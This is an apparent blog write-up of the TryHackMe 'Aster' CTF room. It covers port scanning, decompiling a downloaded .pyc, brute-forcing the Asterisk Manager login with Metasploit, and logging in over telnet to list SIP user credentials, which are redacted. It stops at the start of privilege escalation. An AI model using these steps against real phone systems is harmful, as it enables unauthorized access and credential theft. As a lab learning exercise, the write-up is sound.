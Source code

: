 ```yaml
---
image: /assets/img/aster/aster.png
layout: post
title: Aster
date: 2020-10-1 00:00:01 +5:30
categories: [TryHackMe, Medium]
tags: [asterisk, java, uncomply6] # add tag
---
```


## Description:

The Following Post is writeup of Aster room of tryhackme <https://tryhackme.com/room/aster>

|Machine|Details
|:---|:--
|OS | Linux
|Rating | Medium
|Creator | stuxnet

## Summary

  The room have 5 ports open we can see asterisk service running 22,80,1720,2000,5038.
  Enumeration of

## Walkthrough

### Enumeration

Let's start with nmap scan.

```bash
argenestel@parrot  ~/Desktop/tryhackme/aster  mkdir nmap
argenestel@parrot  ~/Desktop/tryhackme/aster  rustscan 10.10.82.20
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
Faster Nmap scanning with Rust.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
--------------------------------------
😵 https://admin.tryhackme.com

[~] The config file is expected to be at "/home/argenestel/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'.
Open 10.10.82.20:22
Open 10.10.82.20:80
Open 10.10.82.20:1720
Open 10.10.82.20:2000
Open 10.10.82.20:5038
[~] Starting Nmap
[>] The Nmap command to be run is nmap -vvv -p 22,80,1720,2000,5038 10.10.82.20

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-02 14:49 IST
Initiating Ping Scan at 14:49
Scanning 10.10.82.20 [2 ports]
Completed Ping Scan at 14:49, 0.33s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 14:49
Completed Parallel DNS resolution of 1 host. at 14:49, 0.05s elapsed
DNS resolution of 1 IPs took 0.05s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 14:49
Scanning 10.10.82.20 [5 ports]
Discovered open port 22/tcp on 10.10.82.20
Discovered open port 1720/tcp on 10.10.82.20
Discovered open port 80/tcp on 10.10.82.20
Discovered open port 2000/tcp on 10.10.82.20
Discovered open port 5038/tcp on 10.10.82.20
Completed Connect Scan at 14:49, 0.24s elapsed (5 total ports)
Nmap scan report for 10.10.82.20
Host is up, received syn-ack (0.29s latency).
Scanned at 2020-10-02 14:49:35 IST for 0s

PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack
80/tcp   open  http       syn-ack
1720/tcp open  h323q931   syn-ack
2000/tcp open  cisco-sccp syn-ack
5038/tcp open  unknown    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.74 seconds


PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fe:e3:52:06:50:93:2e:3f:7a:aa:fc:69:dd:cd:14:a2 (RSA)
|   256 9c:4d:fd:a4:4e:18:ca:e2:c0:01:84:8c:d2:7a:51:f2 (ECDSA)
|_  256 c5:93:a6:0c:01:8a:68:63:d7:84:16:dc:2c:0a:96:1d (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Aster CTF
1720/tcp open  h323q931?
2000/tcp open  cisco-sccp?
5038/tcp open  asterisk    Asterisk Call Manager 5.0.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's check port 80.

![port80](/assets/img/aster/port80.png)

#### Port 80

So there is pyc file we can use uncompyle6

```bash
✘ argenestel@parrot  ~/Desktop/tryhackme/aster  wget 10.10.82.20/output.pyc
--2020-10-02 15:10:00--  http://10.10.82.20/output.pyc
Connecting to 10.10.82.20:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1072 (1.0K) [application/x-python-code]
Saving to: ‘output.pyc’

output.pyc                        100%[==========================================================>]   1.05K  --.-KB/s    in 0s      

2020-10-02 15:10:01 (31.8 MB/s) - ‘output.pyc’ saved [1072/1072]

I saw the app let's check what it does

argenestel@parrot  ~/Desktop/tryhackme/aster  uncompyle6 output.pyc
# uncompyle6 version 3.7.4
# Python bytecode 2.7 (62211)
# Decompiled from: Python 3.8.5 (default, Aug  2 2020, 15:09:07)
# [GCC 10.2.0]
# Embedded file name: ./output.py
# Compiled at: 2020-08-11 12:29:35
import pyfiglet
o0OO00 = pyfiglet.figlet_format('Hello!!')
oO00oOo = '476f6f64206a6f622c2075736572202261646d696e2220746865206f70656e20736f75726365206672616d65776f726b20666f72206275696c64696e6720636f6d6d756e69636174696f6e732c20696e7374616c6c656420696e20746865207365727665722e'
OOOo0 = bytes.fromhex(oO00oOo)
Oooo000o = OOOo0.decode('ASCII')
if 0:
   i1 * ii1IiI1i % OOooOOo / I11i / o0O / IiiIII111iI
Oo = '476f6f64206a6f622072657665727365722c20707974686f6e206973207665727920636f6f6c21476f6f64206a6f622072657665727365722c20707974686f6e206973207665727920636f6f6c21476f6f64206a6f622072657665727365722c20707974686f6e206973207665727920636f6f6c21'
I1Ii11I1Ii1i = bytes.fromhex(Oo)
Ooo = I1Ii11I1Ii1i.decode('ASCII')
if 0:
   iii1I1I / O00oOoOoO0o0O.O0oo0OO0 + Oo0ooO0oo0oO.I1i1iI1i - II
print o0OO00
# okay decompiling output.pyc
```

![decode1](/assets/img/aster/decode1.png)
![decode2](/assets/img/aster/decode2.png)

so i know the user name searching in msf get us

![module](/assets/img/aster/module.png)
![msfbrute](/assets/img/aster/msfbrute.png)

So we have username and password

```bash
✘ argenestel@parrot  ~/Desktop/tryhackme/aster  telnet 10.10.195.189 5038
Trying 10.10.195.189...
Connected to 10.10.195.189.
Escape character is '^]'.
Asterisk Call Manager/5.0.2
Action: Login
ActionID: 1
Username: admin
Secret: <redacted>


Response: Success
ActionID: 1
Message: Authentication accepted

Event: FullyBooted
Privilege: system,all
Uptime: 1165
LastReload: 1165
Status: Fully Booted
```

```bash
Action: Command
Command: sip show users

Response: Success
Message: Command output follows
Output: Username                   Secret           Accountcode      Def.Context      ACL  Forcerport
Output: 100                        100                               test             No   No        
Output: 101                        101                               test             No   No        
Output: harry                      <redacted>                        test             No   No        
```

```bash
Action: Login
ActionID: 2
Username: harry
Secret: <redacted>
```

![user](/assets/img/aster/aster.png)

#### PrivEsc

So we can see there is Example_root.jar

Using jd-gui..

![javajar](/assets/img/aster/javajar.png)

so we need to get root.txt and /tmp/flag.dat

We will get root.txt

